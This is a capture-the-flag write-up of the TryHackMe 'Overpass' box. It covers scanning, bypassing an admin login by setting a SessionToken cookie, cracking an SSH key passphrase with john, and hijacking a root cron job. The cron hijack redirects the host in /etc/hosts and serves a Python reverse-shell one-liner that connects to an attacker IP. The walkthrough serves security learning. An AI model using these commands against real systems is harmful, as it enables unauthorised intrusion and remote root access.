







# 'Overpass' box writeup

## Overpass is a CTF box written by NinjaJc01 and available on the [TryHackMe](https://tryhackme.com/) platform

## Read about [Broken Authentication](https://www.youtube.com/watch?v=mruO75ONWy8), [OWASP A2](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)


## Foothold

+ **Let's start with a nmap scan for ports**

``nmap -sV -sC -oN scan1 10.10.107.5``

+ **We can clearly see 2 ports open, ssh and a http, configured on default ports**



+ **Visiting the http web-site, we are welcomed by a page which contains info about a specific password-manager app built by some developers.**
**We also see a download link button**



**Accessing the download page, we can look through the Source code of the password-manager app.**
**It looks like it's written in go language which encrypt passwords with the ROT47 algorithm.**

+ **Let's do a gobuster scan of the web site**

``gobuster dir -u http://10.10.107.5/ -w /usr/share/wordlists/dirb/big.txt``



+ **We can spot an admin page and accessing it, we can see an administrator login area.**
**I tried, unsuccessfully, a SQL injection and then moved on the 2nd OWASP vuln.**
**Let's look into the source code of the page and into some js code**



**We can clearly see a `login.js` script so let's look into the source code.**
**The login function seems to be a way to go.**

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

+ **The credentials of the login page are sent to a endpoint inside some DB of the box and a session token is used.**
**It seems like the session token is set with the statusOrCookie parameter.**
**If we change the SessionToken value, maybe we can bypass the login.**
**Let's create the cookie with the name of *SessionToken* and any value you want inside it**


## User escalation

**Now, trying to refresh the page we can observe we bypassed the login auth and a RSA private key of some guy named James is on our screen.**
**Let's save it in some txt file and use it to connect to ssh.**



``chmod 600 id_rsa``

``ssh -i id_rsa james@10.10.107.5``

+ **Trying to connect to ssh, a key is required for our file. Let's use ssh2john to bruteforce our way in: i'm gonna use ssh2john to get our first hash then crack it with john using the `rockyou.txt` wordlist**

``python ssh2john.py id_rsa > key_hash``

``sudo john key_hash -wordlist=/usr/share/wordlists/rockyou.txt``


**Using our password for the ssh we are in!**
**There's two files into user's home directory: one of them is our user's flag and the other seems to be an update of their encryption app.**


## Root escalation

+ **According the message inside the `todo.txt` file, we can see that james is using the same app to encrypt his password.**
**Listing the hidden files inside his directory we can see another file named `.overpass`.**
**It seems to be james password so we're gonna use it, but first don't forget to decrypt it, because it's encrypted with ROT47, as they said in the beginning page**

**Running `sudo -l` command, we cannot se any allowed cmds for james user.**


+ **Let's continue and look into the `/etc/crontab` file**

``cat /etc/crontab``



+ **We can see a `curl` command, executed by root, which runs every minute and transfer the data from the `buildscript.sh`, the building script for their encrypting app, into terminal, then executed by bash.**
**This script is taken from the machine local web-site, and the domain used is `overpass.thm`.**
**If we look into the `/etc/hosts` file we can see the `overpass.thm` dns belongs to the local ip of the machine**



+ **What if we can run our own script on this machine?**
**If we modify the `overpass.thm` domain into our local machine domain, we can host locally a python server and upload maybe a python script which get us a reverse shell.**
**The respective script is executed by root so we're gonna get a root shell**


**Next step is to create a similar path with the `/etc/crontab` `curl` get request from the host - `/downloads/src/buildscript.sh`.**
**Let's do this into our local machine and we're gonna host the server into our home directory**

``mkdir downloads``

``mkdir src``

**Now, let's create the *buildscript.sh***

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``


+ **The last step is to start our server from the home directory (on the 80 port) and then start a listener with nc**

``sudo python -m SimpleHTTPServer 80``

``nc -lvnp 1234``


**And we are root!**
**It was a nice box with a very important vulnerability based on the Broken Authentication and some exploiting `crontab` service.**
